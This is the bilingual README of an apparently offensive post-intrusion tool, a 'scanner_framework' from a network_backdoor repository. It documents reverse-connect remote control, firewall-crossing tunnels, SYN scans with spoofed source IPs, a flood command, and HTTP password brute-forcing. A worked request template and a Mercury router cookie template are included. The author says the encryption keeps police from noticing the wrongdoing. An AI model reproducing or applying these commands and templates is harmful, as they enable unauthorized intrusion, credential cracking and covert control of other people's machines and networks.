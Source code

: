 ﻿
##scanner_framework

===

中文:
网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描

English:
This is an internal network scanner like meterpreter .I will create more function into it scanner (now include many basic network scanner and network crack [like BurpSuite,crack HTTP]).Reverse connect function is to facilitate the attacker management hacked machine and crypte communication.Tunnel connect help your attack process's network flow  crossing the firewall of internal network.
===

网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..    --  LCatro


***

###启动方式  [How to launch it ]
scanner.exe 控制台启动  [Launch it by console]<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问  [Bind a local port for waitting you to connect it]<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80,注意记得先启动reverse_server ,不然scanner.exe 不能成功连接  [Reverse connect to specify ip,WARNING!Remenber launch reverse_server first and then using this parameter launch scanner.exe]<br/>

###使用方法  [How to launch it ]
扫描当前网段存活的主机,并且自动搜集数据  [using ARP request to query live machine in current network]<br/>
using:arp<br/>
获取当前主机的网络信息  [get this machine's information]<br/>
using:local<br/>
测试主机是否连通  [ping ..you most know it ..]<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机  [tcp syn scan,set -P scanner will testing port,set -F is fake a ip for hide itsalf in attack flow]<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机  [dont use it ,because you will expose,so i never develop this function]<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解  [online crack]<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪  [tracert route]<br/>
using:tracert %ip/host%<br/>
抓取页面  [get a HTML page on server]<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能  [tunnal port]<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
显示帮助  [show help]<br/>
using:help<br/>
退出  [exit scanner]<br/>
using:quit<br/>

###在线破解  [About Online Crack]
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	
	什么是表达式?
	
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
	然后会提示输入表达式
	
	input your crack express:
	
	输入数据包数据:
	POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
	Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
	Referer: http://192.168.1.103/api/analays.php<br/>
	Accept-Language: zh-CN<br/>
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
	Content-Type: application/x-www-form-urlencoded<br/>
	Accept-Encoding: gzip, deflate<br/>
	Host: 192.168.1.103<br/>
	Content-length: %length%<br/>
	Pragma: no-cache<br/>
	<br/>
	user=%username%&pass=%password%<br/>
	
	其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小<br/>[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
	
	input your check term:
	
	输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
	Success
	
	now cracking!
	
	network crack - target:192.168.1.103:80
	username:root password:toor
	
	破解完成
	
	
	表达式函数:
	
	base64(%string%) -- 采用base64 编码
	time() -- 获取系统时间
	len(%string%) -- 统计字符串长度
	rnd([%low%-%up%]) -- 在%low% 到%up% 之间生成随机数
	
	Example :
	
	破解水星的数据包 (其它都差不多,关键在Cookie):
	
	Cookie: a2404_pages=10; a2404_times=5; Authorization=Basic%20base64(admin:%password%)\r\n
	
	接下来会把%password% 先填充好之后再编码base64
	
	WARNING! 由于水平问题还做不出递归,请见谅 ..  
	


####端口转发原理:
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)


###Other
===
#####reverse_server 是用来做反向连接用的服务端

#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..